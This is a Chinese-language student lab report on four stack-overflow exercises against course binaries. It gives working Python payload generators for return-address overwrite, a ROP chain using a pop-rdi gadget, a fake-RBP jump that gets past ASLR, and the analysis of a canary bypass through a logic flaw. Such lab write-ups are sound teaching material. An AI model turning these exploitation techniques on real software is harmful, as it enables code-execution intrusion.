



# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- 分析： 利用 objdump -d problem1 进行静态分析，发现 func 函数中存在 strcpy 调用且未检查长度，是典型的栈溢出漏洞。

- 栈帧分析：汇编指令 lea -0x8(%rbp), %rax 表明缓冲区 buffer 起始于 rbp - 8。

- 偏移计算：为了覆盖返回地址（Return Address），需要填充 8 字节的 Buffer 和 8 字节的 Saved RBP，共计 16 字节。

- 攻击目标：找到代码段中输出 "Yes! I like ICS!" 的函数 func1，其地址为 0x401216。

- 解决方案： 构造 Payload：Padding(16B) + Address(func1)。

```Python

import sys
import struct

# Padding: 8 bytes buffer + 8 bytes saved_rbp
padding = b'A' * 16
# Target: func1 address (Little Endian)
target_addr = struct.pack('<Q', 0x401216)

payload = padding + target_addr
sys.stdout.buffer.write(payload)
```
结果： 执行 ./problem1 ans1.txt，程序成功跳转并输出目标字符串。



### Problem 2:
- 分析： 该题目开启了 NX (No-Execute) 保护，栈上数据不可执行。

- 漏洞点：func 函数中使用 memcpy 向 rbp-0x8 的缓冲区写入了 0x38 (56) 字节，足以覆盖返回地址。

- 限制：目标函数 func2 (0x401216) 包含参数检查，要求第一个参数 %rdi 必须等于 0x3f8 (1016)。

- ROP 链构造：由于无法直接传参，需要利用 ROP (Return Oriented Programming) 技术。通过搜索发现地址 0x4012c7 处存在 Gadget pop %rdi; ret，可用于将栈上的数据弹入 %rdi 寄存器。

- 解决方案： 构造 ROP 链：Padding(16B) -> Gadget(pop rdi) -> Arg(0x3f8) -> Target(func2)。

```Python

import sys
import struct

padding = b'A' * 16
pop_rdi = 0x4012c7      # Gadget 地址: pop %rdi; ret
arg_val = 0x3f8         # 参数值: 1016
func2_addr = 0x401216   # 目标函数 func2

payload = padding
payload += struct.pack('<Q', pop_rdi)
payload += struct.pack('<Q', arg_val)
payload += struct.pack('<Q', func2_addr)

sys.stdout.buffer.write(payload)
```
结果： 执行 ./problem2 ans2.txt，参数检查通过，成功输出。


### Problem 3: 
- 分析：

环境：开启了 ASLR (地址随机化)，且存在写入长度限制。

漏洞点：func 中 memcpy 向 rbp-0x20 (32字节) 的缓冲区写入了 64 字节。

空间限制：Padding 需要 32B (Buffer) + 8B (Saved RBP) = 40B。剩余 24B 仅够存放 3 个地址，无法构造完整 ROP。

- 策略：

Jump-to-Middle：直接跳转到 func1 内部跳过参数检查指令的地址 0x40122b。

Stack Pivot (伪造 RBP)：由于跳转后 func1 仍使用 rbp 寻址局部变量，而溢出破坏了 rbp，必须将其修复为一个合法的可写地址 (Fake RBP)，否则会崩溃。

本题尝试了两种解决方案：

- 解决方案一：利用静态数据段 (BSS) 绕过 ASLR (通用解法)
思路：虽然栈地址随机，但程序本身没有开启 PIE，代码段和数据段地址固定。通过反汇编发现数据段位于 0x403xxx 附近。选取 0x403600 作为 Fake RBP，该地址固定、可写且远离关键系统变量。

Payload 代码：

```Python

import sys
import struct

padding = b'A' * 32
# 0x403600 位于 .data/.bss 段，地址固定且可写，不受 ASLR 影响
fake_rbp = 0x403600  
target_addr = 0x40122b # 跳过检查的地址

payload = padding
payload += struct.pack('<Q', fake_rbp)
payload += struct.pack('<Q', target_addr)
sys.stdout.buffer.write(payload)
```
执行：直接运行 ./problem3 ans3.txt 即可成功。

- 解决方案二：利用 GDB 动态调试获取真实栈地址
思路：通过关闭系统 ASLR，使调试环境与运行环境一致，利用 GDB 捕获真实的栈地址。

操作步骤：

GDB 调试：使用 setarch x86_64 -R gdb problem3 启动。

获取地址：下断点后运行，执行 print/x $rbp，捕获到地址 0x7fffffffd740。

构造 Payload：

```Python

# 使用 GDB 调试捕获的真实栈地址
fake_rbp = 0x7fffffffd740  
```
执行：必须使用 setarch x86_64 -R ./problem3 ans3.txt 运行，以保证栈地址与调试时一致。

结果： 两种方法均成功让程序输出了 "Your lucky number is 114"。



### Problem 4: 

- 分析： 本题主要考察对 Canary (Stack Guard) 机制的逆向分析。 通过 objdump 查看 func 函数，可以清晰看到保护机制：

埋设 Canary (Function Prologue):

代码段

136c: mov    %fs:0x28,%rax    ; 从 TLS 获取随机值
1375: mov    %rax,-0x8(%rbp)  ; 存入栈底 (返回地址之前)
检查 Canary (Function Epilogue):

代码段

140a: mov    -0x8(%rbp),%rax  ; 取出栈中的值
140e: sub    %fs:0x28,%rax    ; 与原随机值比较
1417: je     141e             ; 相等则通过
1419: call   ...              ; 不相等则报错 crash
通关策略：由于暴力覆盖会触发报错，我们转向分析程序逻辑。

main 函数包含名字、Key、数字的三次交互。

func 函数检查第三次输入的数字，如果等于 -1 (0xffffffff)，则直接调用成功函数。这是一道逻辑漏洞利用，而非溢出攻击。

- 解决方案： 直接准备空文件，前两次输入乱输，并在第三次交互输入 -1。

结果： 执行 ./problem4 < ans4.txt，程序解密信息后输出 "your money is 4294967295"。

## 思考与总结

1. 栈帧的关键作用：通过 Problem 3 的调试，我深刻理解了 rbp 寄存器的重要性。它不仅是栈帧的基址，还是函数存取局部变量的坐标原点。在溢出攻击中，如果破坏了 rbp 而不进行 Stack Pivot 修复，程序即使跳转成功也会因非法内存访问而崩溃。

2. 内存布局与 ASLR：Problem 3 展示了绕过 ASLR 的一种技巧——利用未开启 PIE 的程序中固定的数据段（BSS/Data Section）作为伪造的栈空间。区分代码段、数据段和栈段的地址范围（如 0x40xxxx vs 0x7ffff...）是攻击成功的关键。

3. 工具链的配合：

objdump：静态分析，寻找漏洞点和 Gadget。

gdb：动态调试，验证内存状态和 Payload 对齐情况。

Python：生成包含非打印字符（如地址 0x00）的 Payload。

Setarch：在调试阶段固定内存布局，辅助分析。


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。

CTF Wiki - Stack Overflow: https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/